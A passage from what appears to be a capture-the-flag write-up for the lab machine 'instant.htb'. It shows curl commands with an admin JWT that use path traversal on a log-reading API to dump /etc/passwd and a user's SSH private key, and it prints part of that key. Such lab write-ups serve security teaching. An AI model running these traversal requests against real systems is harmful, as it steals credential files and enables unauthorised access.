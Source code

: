```json
{
  "/home/shirohige/logs/1.log": [
    "This is a sample log testing\n"
  ],
  "Status": 201
}
```

There is nothing interesting in this log. However, this "input" semms that can be vulnerable to **path traversal**. To check this, we will read the `etc/passwd`.

```
curl -sX GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA' "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=../../../etc/passwd" | jq -r '."/home/shirohige/logs/../../../etc/passwd"[]' | tr -s '\n'

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
usbmux:x:103:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
shirohige:x:1001:1002:White Beard:/home/shirohige:/bin/bash
_laurel:x:999:990::/var/log/laurel:/bin/false
```

It is vulnerable. To transform this to a remote command execution we could try to read the ssh private key to connect to the machine without credentials.

```
curl -sX GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA' "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=../.ssh/id_rsa" | jq -r '."/home/shirohige/logs/../.ssh/id_rsa"[]' | tr -s '\n' > id_rsa_shirohige

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEApbntlalmnZWcTVZ0skIN2+Ppqr4xjYgIrZyZzd9YtJGuv/w3GW8B
nwQ1vzh3BDyxhL3WLA3jPnkbB8j4luRrOfHNjK8lGefOMYtY/T5hE0VeHv73uEOA/BoeaH

...etc...

HwDs1CAcoWDnh7yhGK6lZM3950r1A/RPwt9FcvWfEoQqwvCV37L7YJJ7rDWlTa06qHMRMP
```